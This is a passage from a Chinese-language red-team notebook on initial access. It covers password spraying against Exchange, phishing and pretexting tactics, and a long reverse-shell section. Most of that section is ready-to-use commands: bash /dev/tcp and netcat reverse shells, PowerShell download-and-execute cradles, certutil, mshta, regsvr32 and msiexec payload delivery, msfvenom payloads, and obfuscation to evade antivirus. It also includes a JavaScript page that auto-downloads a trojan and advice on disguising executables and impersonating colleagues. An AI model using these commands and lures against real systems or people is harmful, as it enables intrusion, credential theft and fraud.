Speed.#1.........: 13837.0 kH/s (0.32ms) @ Accel:1024 Loops:10 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 10000/10000 (100.00%)
Rejected.........: 0/10000 (0.00%)
Restore.Point....: 0/1000 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-10 Iteration:0-10
Candidates.#1....: 1234 -> 6764

Started: Mon Jan 30 03:12:49 2023
Stopped: Mon Jan 30 03:12:51 2023
```

这个 ?d 是什么意思？，? 代表字符 d 是其字符集。

> ```plaintext
> - [ Built-in Charsets ] -
> 
>   ? | Charset
>  ===+=========
>   l | abcdefghijklmnopqrstuvwxyz
>   u | ABCDEFGHIJKLMNOPQRSTUVWXYZ
>   d | 0123456789
>   h | 0123456789abcdef
>   H | 0123456789ABCDEF
>   s |  !"#$%&'()*+,-./:;<=>?@[\]^_`{|}~
>   a | ?l?u?d?s
>   b | 0x00 - 0xff
> ```

在实战中需要对数据编码、加密、哈希个人用 [CyberChef](https://github.com/gchq/CyberChef) 多，能够满足日常测试需求，相比 Ciphey 没古典密码类的支持。

###### John the Ripper

pass

#### 1.2.2 密码喷洒（Password Spraying）⚒️

为了防止暴力破解导致的账户锁定，而你又知道账户的初始化密码，可能存在大量未修改密码账户，因此就可以针对尝试使用这一个密码尝试登录多个用户名。

密码喷洒密码喷洒和暴力破解区别是什么呢？前者是一个密码对多个账户进行登录，后者是一个账户尽可能使用多个密码尝试登录。

PS：示例待更新，因为要把 Exchange 和 Office 365 做成专题。这里举例可以换成 RDP、SSH 等等

##### Exchange

[https://github.com/dafthack/MailSniper](https://github.com/dafthack/MailSniper)

导入脚本。

```plaintext
ipmo .\MailSniper.ps1
```

Invoke-DomainHarvestOWA 获取 NetBIOS 名。

```powershell
Invoke-DomainHarvestOWA -ExchHostname <host>
```

Invoke-UsernameHarvestOWA 验证邮箱名。

```powershell
Invoke-UsernameHarvestOWA -ExchHostname <host> -UserList .\userName.txt -OutFile SprayedResult-ValidUserames.txt
```

如果目标有多个域，可以用 -Domain 指定子域去验证邮箱名。

```powershell
Invoke-DomainHarvestOWA -ExchHostname <Host> -Domain <domain> -UserList .\userName.txt -OutFile SprayedResult-ValidUserames.txt
```

喷洒密码。

```powershell
Invoke-PasswordSparyOWA -ExchHostname <Host> -UserList .\userName.txt -Password <Password> -OutFile SprayedResult-ValidAccounts.txt
```

*OPSEC：每次失败都有记录，达到一定次数触发账户锁定策略。*

一旦获取一个有效账户后可以去下载所有 Email 地址 重复枚举其密码。

```powershell
Get-GlobalAddressList -ExchHostname <Host> -UserName <Domain>\<username> -Password <Password> -OutFile SprayedResult-GlobalMailAddressList.txt
```

获取到一堆有效账户后，可以登录去搜敏感信息，甚至主动发邮件钓鱼，比如把要回复的邮件原本附件中添加宏。

##### Office 365

### 1.3 近源渗透⚒️

物理渗透、物理攻击、近源渗透，这几个的意思都是在接近目标进行安全测试。不光要会攻击，有时候涉及到开锁、复制卡这种硬件技能。🤣

需要寻找的目标：

-   办公区开放使用的自助终端机，比如申请门禁，自助挂号
-   大厅开放的信息展示大屏，播放视频用，但支持触屏功能

[https://tttang.com/archive/1888](https://tttang.com/archive/1888)

#### 1.3.1 Wi-Fi

爆 Wi-Fi 密码。

搭建钓鱼 Wi-Fi。有些公司 Wi-Fi 使用的域账户做认证，抓用户名和哈希。

[https://www.boundaryx.com/info/853.html](https://www.boundaryx.com/info/853.html)

甚至有可能提供访客网络，没做网络隔离直接进入内网。

#### 1.3.2 网线

没有终端准入控制，网络面板直接插网线看 DHCP 能否获取 IP。

#### 1.3.3 Bad USB

Black Hat 上提出 Bad USB。

[https://attack.mitre.org/techniques/T1091/](https://attack.mitre.org/techniques/T1091/)

相关报道：[https://www.minitool.com/news/usbharpoon.html](https://www.minitool.com/news/usbharpoon.html)  
USB 商品：[https://shop.hak5.org/products/usb-rubber-ducky](https://shop.hak5.org/products/usb-rubber-ducky)  
数据线商品：[https://shop.hak5.org/products/omg-cable?variant=39808316309617](https://shop.hak5.org/products/omg-cable?variant=39808316309617)

### 1.4 社会工程学（Social Engineering）

钓鱼在信息收集阶段就同步进行。收集完再发钓鱼，有个时间差，人家不一定点呢。

社会工程学本质是利用人的信任。

比如在投递简历，传带有宏的 doc，拿 HR 终端权限，获取通讯录，爆账户密码。

学习资料：[https://blog.0xffff.info/2021/06/23/an-overview-of-obscure-spear-phishing-techniques/，An](https://blog.0xffff.info/2021/06/23/an-overview-of-obscure-spear-phishing-techniques/%EF%BC%8CAn) overview of obscure spear-phishing techniques

搞到最后跟电信诈骗手法类似，要多向电诈学习。

冒充身份：领导、同事（客服/HR）、合作商、同学，需要提前准备好各个角色文案话术语料，猜想对方会有什么疑惑，如果涉及账户，在社工项目准备工作前可以提前养号，比如微信号。木马工具也是提前做好面杀，确保行动安全。

### 1.5 钓鱼（Phishing）⚒️

[https://attack.mitre.org/techniques/T1566/](https://attack.mitre.org/techniques/T1566/)

[https://github.com/bluscreenofjeff/Red-Team-Infrastructure-Wiki#phishing-setup](https://github.com/bluscreenofjeff/Red-Team-Infrastructure-Wiki#phishing-setup)

钓鱼一般是指广撒网，鱼叉式钓鱼是有针对性目标钓鱼。

分两种手段：

1.  鱼叉式钓鱼附件
2.  鱼叉式钓鱼链接

多种渠道投递：

1.  邮箱
2.  社交软件
3.  短信
4.  电话
5.  ......

#### 1.5.1 钓鱼手段

##### 鱼叉式钓鱼附件（Spear Phishing Attachments）

1.Office 宏

原理见 [Red Team: Infrastructure - MS Office Macro](https://www.raingray.com/archives/4385.html#MS+Office+Macro)

2.可执行文件

在发件要增加打开几率可以作这么几件事。

首先写好文案，附件要作图标替换，附件名配合文案做好伪装，后缀呢可以双后缀名，赌默认没有开启文件后缀名显示功能。

可使用长文件名，在大多数压缩包中不会显示后缀，在 Windows 桌面只要不单击文件也不会展示后缀。

```plaintext
2023第二季度考勤异常信息表                                                                                                         .exe
```

打开也可以弹出个错误框，在点击确认后可执行文件自删除，自动进程迁移。

3.HTML 静态页

邮件钓鱼中 HTML 走私

4.快捷方式

[https://dmcxblue.gitbook.io/red-team-notes/initial-acces/spear-phishing/lnk-files](https://dmcxblue.gitbook.io/red-team-notes/initial-acces/spear-phishing/lnk-files)

5.屏保文件

[https://dmcxblue.gitbook.io/red-team-notes/initial-acces/spear-phishing/scr-files](https://dmcxblue.gitbook.io/red-team-notes/initial-acces/spear-phishing/scr-files)

6.中转附件

还可以在附件放上 zip、pptx、pdf、html 这些文件，内容放置二维码或者 URL 让受害者自己打开钓鱼页面。

##### 鱼叉式钓鱼链接（Spear Phishing Links）

发送邮件但是不包含附件，通常在邮件内容上做手脚，比如放上 URL 链接、图片二维码。

涉及到的 URL 会使用短链接（URL shortening），相似字符伪装如 I 和 l 在某些字体上显示基本一直。

关于访问 URL 涉及到的技术有运行 [HTA](#HTA) 和 EXE，或者钓鱼站点收集信息。

也不光可以使用 URL，也能直接把 URL 做成 QR Code，搞张大海报贴人公司墙上。

#### 1.5.2 投递渠道

##### 钓鱼邮件

准备几套钓鱼信，按照场景分，结合 ChatGPT 润色。

钓鱼吃瓜邮件，或者举报邮件。

通过邮箱传递。

如果拿下一个内部邮箱账户，可以用来向内部发送钓鱼邮件，这样可信度更高。

**邮件伪造**

SPF

DKIM

DMARC

可以用 [https://github.com/BishopFox/spoofcheck](https://github.com/BishopFox/spoofcheck) 检测

还要对抗邮件网关，防止检测并退信，并且异常还会将你的样本留存在异常记录中。

##### 钓鱼短信

pass

如何防止如熊猫吃短信这种 App 报成垃圾短信？

##### 钓鱼站点

模拟出一个真实钓鱼页面，迷惑受害者输入账户，通过 JS 正则验证输入账户是否正确，所有信息格式正确后通过 Javascript Fetch or XMLHttpRequest API 发送数据到服务器，服务器通过参数来获取数据并存入本地数据库或文件。

1.  使用 Typosquatting 攻击选择一个相似域名，比如 www.baidu.com，变为 www.baidU.com
2.  制作 Web 页面，如 VPN、OA

Nginx 反向代理嗅探明文账户。

最近就遇到一个静态页面钓鱼站点，一打开页面就先弹窗，后跳转自动下载木马。

```javascript
window.alert("您未安装安全输入控件，请下载并安装控件后刷新页面即可登录")
window.onload = function(){
    window.location.href='./static/active.exe';
}
```

##### 社交网络

钓鱼路径：邮件钓鱼基本没人点，大多都是社交或者客服钓鱼，要针对对外业务的人员。

钓鱼话术：以猎头身份微信找人聊。钓鱼也可以拿到，内部系统账户人员信息，钓鱼先养号，朋友圈先发，开微信公众号。怎么知道那边受害者信息？就说通过猎头拿到的，去按照受害者所在地区提供对应岗位。提前养号脉脉，获得应聘人员权限。

## 2 反弹 Shell

[https://highon.coffee/blog/reverse-shell-cheat-sheet/](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

反弹 Shell（Reverse Shell）分正向和反向，正向是目标机器开放入口等待主动连接，我们连接成功后拿到 Shell，如 Web Shell。一旦涉及到弹系统 Shell 则较麻烦，目标防火墙入站不接受日常服务——SSH、HTTP、HTTPS 以外规则访问，导致无法连接成功。

```plaintext
Client -> Firewalld -> Server
```

反向则是目标机器将自己 Shell 交出来主动连接我们服务器。只要目标机器能够外连互联网机器即可，这种情况避免了入站流量被阻断的情况，一般来说出站流量不会收到限制。

```plaintext
Server -> Firewalld -> Client
```

### 2.1 Windows

#### 2.1.1 Netcat⚒️

正向连接

服务端监听。将 cmd 重定向到 6666 端口。

```plaintext
nc -lvp 6666 -e cmd.exe
```

客户端连接。

```plaintext
nc 1.1.1.1 6666
```

反向连接。

服务端主动连接客户端。主动将 cmd.exe 传递到 1.1.1.1 7777 端口

```plaintext
nc -e cmd.exe 1.1.1.1 7777
```

客户端等待连接

```plaintext
nc -lvp 7777
```

#### 2.1.2 HTA

相关原理见 [Red Team: Infrastructure - HTML Application（HTA）](https://www.raingray.com/archives/4385.html#HTML+Application%EF%BC%88HTA%EF%BC%89)

1.MSF 托管 hta 服务。

msf 开启 Web 服务，在里面存放应用，将自动给出 URL 链接。

```plaintext
use exploit/windows/misc/hta_server
set srvhost <Host>
set payload windows/x64/meterpreter/reverse_tcp 
set target 1  // 设置目标系统类型为 x64，0 是 x86
exploit -j
```

Payload 和 target 设置类型设置为 X64 还是 X86，实际情况要根据系统版本来看。

执行反弹。

```plaintext
mshta http://<Host>:8080/say00S5.hta
```

除了使用 mshta 运行外还可以通过浏览器运行。在 IE 11 和新老版本 Edge 浏览器下载 hta 应用后存在自动打开按钮（Chrome 和 Firefox 则是直接下载）。

  
  


这里以 Windows 11 上 Edge 为例，点击打开会有警告提示。



2.HTA 反弹 MSF

msfvenom 生成 HTA 文件。

```plaintext
msfvenom -p windows/x64/meterpreter/reverse_tcp lhos=<Host> loport=<Port> -f htfa-psh -o attack.hta
```

msf 监听即可。

```plaintext
handler -p windows/x64/meterpreter/reverse_tcp -H <Host> -P <Port>
```

这里 handler 相当于一键设置 exploit/multi/handler 和 Payload。

```plaintext
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost <Host>
set lport <Port>
exploit -j
```

3.Cobalt Strike HTA 上线

Cobalt Strike 也可以生成 hta 文件，在菜单 Attacks -> HTML Application 生成。

#### 2.1.3 Rundll32

Rundll32 用于运行 32 位 DLL 文件，说白了就是能执行 dll 中代码。

可以执行 .hta 上线。

```plaintext
rundll32.exe url.dll,OpenURL attack.hta
```

或者是通过 MSF SMB Delivery 上线。

设置共享 dll 服务监听 IP 和端口，默认监听 0.0.0.0:445

```plaintext
use exploit/windows/smb/smb_delivery
```

启动完成将给出 .dll 文件地址。

```plaintext
rundll32.exe \\Host\test.dll,0
```

默认共享不方便使用，可以找到 MSF 生成的 .dll 复制下来用 http 服务托管加载。

```plaintext
msfvenom -a x64 --platform windows -p windows/x64/meterpreter/reverse_tcp LHOST=<Host> LPORT=<Port> -f dll > attack.dll
```

msf 使用指定 Payload 监听。

```plaintext
handler -p windows/x64/meterpreter/reverse_tcp -H <Host> -P <Port>
```

客户端加载上线。

```plaintext
rundll32 shell32.dll,Control_RunDLL attack.dll
```

#### 2.1.4 Regsvr32

Regsvr32 用于注册 .dll 文件为组件。

存放在 %systemroot%\\System32\\regsvr32.exe。

```plaintext
use exploit/multi/script/web_delivery
set srvhost <Host>
set target 3
set payload windows/x64/meterpreter/reverse_tcp
set lhost <Host>
exploit -j
```

客户端执行上线。

```plaintext
regsvr32 /s /n /u /i:http://<Host>/xxx.sct scrobj.dll
```

#### 2.1.5 Certutil

生成 exe。

```plaintext
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Host> LPORT=<Port> -f exe > attack.exe
```

下载文件到 C:\\Windows\\Temp\\ 并执行，最后删除缓存。

```plaintext
certutil -urlcache -split -f http://<Host>/attack.exe C:\Windows\Temp\attack.exe & start C:\attack.exe

// 删除缓存
certutil -urlcache -split -f http://<Host>/attack.exe
```

有时能够执行命令不出网没法下载文件，在 @AabyssZG 博客中[《SQL注入恶劣环境之可执行文件上传骚姿势》](https://blog.zgsec.cn/archives/258.html)一文可以通过 Certutil 编解码功能来传输文件。网络稳定的情况下传一些小文件很好用，在此记录下。

先将文件编码 `Certutil -encode <要编码的文件> <编码后文件>`。

```plaintext
E:\Desktop>DIR /C student_raingray_beacon.exe
 驱动器 E 中的卷是 SoftWare2
 卷的序列号是 7E0F-A68D

 E:\Desktop 的目录

2023/05/19  11:18           288,256 student_raingray_beacon.exe
               1 个文件        288,256 字节
               0 个目录 598,579,605,504 可用字节

E:\Desktop>Certutil -encode student_raingray_beacon.exe student_raingray_beacon
输入长度 = 288256
输出长度 = 396412
CertUtil: -encode 命令成功完成。
```

会发现文件被 Base64 编码。

```plaintext
-----BEGIN CERTIFICATE-----
TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
......
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAA==
-----END CERTIFICATE-----
```

在目标系统上输出重定向到文件中。VSCode 使用正则 `^` 在开头添加 `echo`，使用 `$` 在尾部批量添加 `>> record`。

```plaintext
echo -----BEGIN CERTIFICATE----- >> record
echo TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA >> record
......
echo AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA >> record
echo AAAAAAAAAAAAAAAAAAAAAA== >> record
echo -----END CERTIFICATE----- >> record
```

但一个 280Kb 文件有 5000 多行，在网络环境不稳定的情况下，某一条输出重定向命令执行失败，就会导致文件不完整，因此可以使用命令拼接的方式，成功执行一条输出所在行数并写入到文件中方便回顾。

```plaintext
&& echo LineNumber && echo LineNumber >> FileEchoStatus
```

打开 Excel，A 列第一行输入 `echo`，向下选中空列 Ctrl + D 快速填充。注意末尾后面又一个空格。


在 C 列输入 `>> record && echo` 一样进行填充。注意开头和末尾各有一个空格。


在 D 列第一行输入 1，快速填充行数。

  


和 A 列一样，在 E 列第一行，快速填充 `&& echo`。注意开头和末尾各有一个空格。

F 列直接把 D 行数字复制过来即可。

最后 G 列快速填充 `>> FileEchoStatus`，就可以了。注意开头有一个空格。


将表格另存为 txt，把第一行追加重定向，改成覆盖，防止文件已经存在导致数据错乱这种低级问题。

最后使用 Windows 自带笔记本将其中的 Tab 制表符给删除（VSCode 不知道为啥把空格也识别成 Tab），防止在命令行中自动选中文件。至少在 Windows 命令提示符中粘贴输入是这样。

```plaintext
echo    TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA     >> record && echo  2
```



所有命令执行完成后，再还原成应用。

```plaintext
E:\Desktop>Certutil -decode student_raingray_beacon 1.exe
输入长度 = 396412
输出长度 = 288256
CertUtil: -decode 命令成功完成。
```

#### 2.1.6 Powershell

1.生成 PowerShell 脚本上线。

生成 ps1 脚本指定反连接地址和端口。

```plaintext
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<Host> lport=<Port> -f psf-reflection -o attack.ps1
```

MSF 监听。

```plaintext
handler -p windows/x64/meterpreter/reverse_tcp -H <Host> -P <Port>
```

执行上线。

```plaintext
powershell -w hidden -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://<Host>/attack.ps1');attack.ps1"
```

2.[powercat](https://github.com/besimorhino/powercat) 上线。

此工具实现了 Netcat 功能。

\-c 反连服务器地址，-p 反连服务器端口，-e 反弹 cmd。

```plaintext
powershell -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://<Host>/powercat.ps1');powercat -c <Host> -p <Port> -e cmd"
```

服务端只需等待 Shell 反弹回来即可。

```plaintext
nc -lvp <Port>
```

3.msf web\_delivery 上线。

target 2 PSH 是 PowerShell 简写，用于生成 PowerShell 脚本。

```plaintext
use exploit/multi/script/web_delivery
set target 2
set payload windows/x64/meterpreter/reverse_tcp
exploit -j
```

执行 msf 提供的脚本即可。

4.PowerShell 运行 cscript 程序去执行 vbs 脚本上线

生成 vbs 脚本。

```plaintext
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<Host> lport=<Port> -f vbs -o attack.vbs
```

MSF 监听。

```plaintext
msf6> handler -p windows/x64/meterpreter/reverse_tcp -H <Host> -P <Port>
```

下载脚本到 $env:temp，sccript 执行 attack.vbs 上线。

```powershell
powershell -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://<Host>/attack.vbs',\"$env:temp\attack.vbs\");Start-Process %windir%\system32\cscript.exe \"$env:temp\attack.vbs\""
```

5.PowerShell 运行 bat

```plaintext
msfvenom -p cmd/windows/powershell_reverse_tcp lhost=<Host> lport=<Port> -o attack.bat
```

MSF 监听。

```plaintext
handler -p cmd/windows/powershell_reverse_tcp -H <Host> -P <Port>
```

上线。

```powershell
powershell -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://<Host>/attack.bat'))"
```

6.补充

PowerShell 混淆

[Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)

导入脚本

```plaintext
powershell -ep bypass import-Module ./Invoke-Obfuscation.psd1;Invoke-Obfuscation
```

设置需要混淆的脚本路径。

```plaintext
set scriptpath C:\attack.ps1
```

设置混淆模式。

```plaintext
token\all\1
```

输出混淆后脚本。

```plaintext
out mix-attack.ps1
```

尝试执行混淆后脚本看 AV 是否拦截。

```plaintext
powershell -ep bypass -f mix-attack.ps1
```

#### 2.1.7 msiexec

msiexec 用于安装 Windows MSI 程序，常常通过命令行用来批量安装应用。

生成 Payload。

```plaintext
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<Host> lport=<Port> -f msi -o attack.msi
```

MSF 监听。

```plaintext
handler -p windows/x64/meterpreter/reverse_tcp -H <Host> -P <Port>
```

上线。

```powershell
msiexec /q /i http:<Host>/attack.msi
```

*OPSEC：运行后不知道 `%TEMP%` 是否存在日志，需确认（这条待确认）*[https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84msiexec#:~:text=%E6%89%A7%E8%A1%8C%E5%90%8E%E4%BC%9A%E5%9C%A8%25TEMP%25%E4%B8%8B%E7%94%9F%E6%88%90MSI%E7%9A%84log%E6%96%87%E4%BB%B6%EF%BC%8C%E5%A6%82%E5%9B%BE](https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84msiexec#:~:text=%E6%89%A7%E8%A1%8C%E5%90%8E%E4%BC%9A%E5%9C%A8%25TEMP%25%E4%B8%8B%E7%94%9F%E6%88%90MSI%E7%9A%84log%E6%96%87%E4%BB%B6%EF%BC%8C%E5%A6%82%E5%9B%BE)\*

#### 2.1.8 exe 可执行文件

生成 Payload。

```plaintext
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<Host> lport=<Port> -f exe -o attack.exe
```

MSF 监听。

```plaintext
handler -p windows/x64/meterpreter/reverse_tcp -H <Host> -P <Port>
```

上线。

```powershell
powershell (New-Object Net.WebClient).DownloadString('http://<Host>/attack.bat', 'attack.exe');start attack.exe

powershell -w hidden -ep bypass -nop (New-Object Net.WebClient).DownloadString('http://<Host>/attack.exe', 'attack.exe');start-process attack.exe
```

### 2.2 Linux

#### 2.2.1 Bash

控制端将输入传输到被控端执行，被控端也要将执行返回的内容输出到控制端完成交互。

```bash
// 返回部分交互式 Shell，没有 [Username@HostName CurrentDir]
bash -i > /dev/tcp/<IP>/<Port> 0>&1 2>&1

// 能够返回完整可交互 Shell
bash -i &> /dev/tcp/<IP>/<Port> 0>&1
```

bash -i

/dev/tcp

0>&1

2>&1，2 是错误输出，>& 是错误输出重定向，1 是标准输出，连起来是将错误内容输出重定向到标准输出里。

#### 2.2.2 Netcat

Server 监听 将 /bin/sh 传输到

```plaintext
nc -lvp <Port> -e /bin/sh
```

Client 连接到目标端口即可拿到 Shell

```plaintext
nc <IP> <Port>
```

nc 没有 -e 参数如何反弹。

```plaintext
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <IP> <Port> > /tmp/f
```

详见 [Netcat - raingray Blog](https://www.raingray.com/archives/438.html#%E8%BF%9C%E7%A8%8B%E6%8E%A7%E5%88%B6) 一文

> Server 监听 333 端口，用 -c 把 shell 传过去，`-c` 是使用 shell。
> 
> ```plaintext
> nc -lp 333 -c bash
> ```
> 
> Client nc 连接到 Server 333 端口，由于服务端把 shell 传过来了，客户端就拥有执行命令的权限，权限多大的具体看用户。
> 
> ```plaintext
> nc 172.28.112.34 333
> ```
> 
> 另外还有种用法是客户端监听 333 端口（测试者开放端口等待服务端连接）。
> 
> ```plaintext
> nc -lp 333
> ```
> 
> 服务端连连接 333 端口把自己的 shell 传给客户端。得到目标系统 shell 后可以利用这种方法把目标系统 shell 传给测试者（让服务器主动连接测试者）。
> 
> ```plaintext
> B(server)：nc 172.28.112.34 333 -c bash
> ```
> 
> 注：如果是 Windows 请把 shell 换成 cmd。

#### 2.2.3 Python

通过 Python 获取 pty 终端，不太好用但相比 Bash 反弹的 Shell 来说好多了。

```python
python -c "import pty;pty.spawn('/bin/bash')"
```

关于获取一个标准终端的两篇文章

[https://www.freebuf.com/news/142195.html](https://www.freebuf.com/news/142195.html)  
[https://bbs.ichunqiu.com/thread-54982-1-1.html](https://bbs.ichunqiu.com/thread-54982-1-1.html)

[https://legoc.github.io/2018/09/20/Linux提权思路](https://legoc.github.io/2018/09/20/Linux%E6%8F%90%E6%9D%83%E6%80%9D%E8%B7%AF)

#### 2.2.4 PHP⚒️

#### 2.2.5 Ruby⚒️

#### 2.2.6 Perl⚒️

#### 2.2.7 OpenSSL⚒️

#### 2.2.8 Telnet⚒️

#### 2.2.9 git hooks⚒️

在项目设置 git hook 的 pre-receive 写上反弹语句，pre-receive 就是在 commit 之前会执行脚本。之后就新建个文件 commit 就可以拿到 Shell了。

## 3 建立隧道⚒️

建立隧道目的是为了后面内网横向移动提前准备好的网络通道，方便从互联网访问到内网资源。



建立隧道前先要进行出网探测，确认当前网络能不能连通外网，哪些能协议能出？当前主机出站流量能够访问哪些端口？是不是只允许连接目标 IP 或者指定端口？不然后续操作很不方便。

这里介绍三种网络情况：

1.情况一

目标机器能出网也有公网地址，直接在目标机器上开 Socks5 正向连接。

2.情况二

拿下的目标机器没有公网 IP，可能处在反向代理后面的内网集群，但也能访问内网和互联网，此时可以让目标反连 VPS，我们通过 VPS 访问目标内部网络。

